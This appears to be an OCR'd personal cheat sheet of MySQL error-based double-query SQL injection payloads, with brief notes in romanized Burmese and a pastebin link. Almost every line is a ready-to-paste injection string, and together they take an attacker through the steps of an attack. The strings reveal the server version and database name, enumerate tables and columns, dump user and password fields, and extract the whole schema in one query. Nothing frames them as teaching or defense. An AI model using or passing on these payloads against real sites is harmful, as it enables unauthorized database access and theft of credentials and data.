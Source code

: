 https://pastebin.com/V6pwM7KF   => ko root note

Error Base Double query use

a. The Used Select Statements Have Different Number Of Columns.

b. Unknown Column 1 or no columns at all (in webpage and page source)

c. Error #1604



Show Version
or 1 group by concat_ws(0x3a,version(),floor(rand(0)*2)) having min(0) or 1

Show Database 
or 1 group by concat_ws(0x3a,database(),floor(rand(0)*2)) having min(0) or 1 


Show Database   -> nout a pone san   (or twe and twe bal play phot lo dal)

and (select 1 from (select count(*),concat((select(select concat(cast(database() as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)


Show tables

and (select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  -> 0,1 ka first table ko kyi mal pyaw dar

Show tables

and (select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 1,1),floor(rand(0)*2))x from information_schema.tables group by x)a)   -> second table ko kyi mar

Show columns    -> tablename change oak naw

and (select 1 from (select count(*),concat((select(select concat(cast(column_name as char),0x7e)) from information_schema.columns where table_name=0xTable and table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

Dump data by edit

and (select 1 from (select count(*),concat((select(select concat(cast(concat(user,0x7e,password)as char),0x7e)) from information_schema.columns where table_name=0xTable and table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

Dump data from columns -> ko root

and (select 1 from (select count(*),concat((select(select concat(cast(concat(COLUMN_NAME,0x7e,COLUMN_NAME) as char),0x7e)) from Databasename.TABLENAME limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)




Dump in one Shot ( Database,Table,Column )

(select (@x) from (select (@x:=0x00), (select (0) from (information_schema.columns) where (table_schema!=0x696e666f726d6174696f6e5f736368656d61) and (0x00) in (@x:=/*!50000concat*/(@x,0x3c62723e,table_schema,0x272d2d3e27,table_name,0x272d2d3e27,column_name))))x)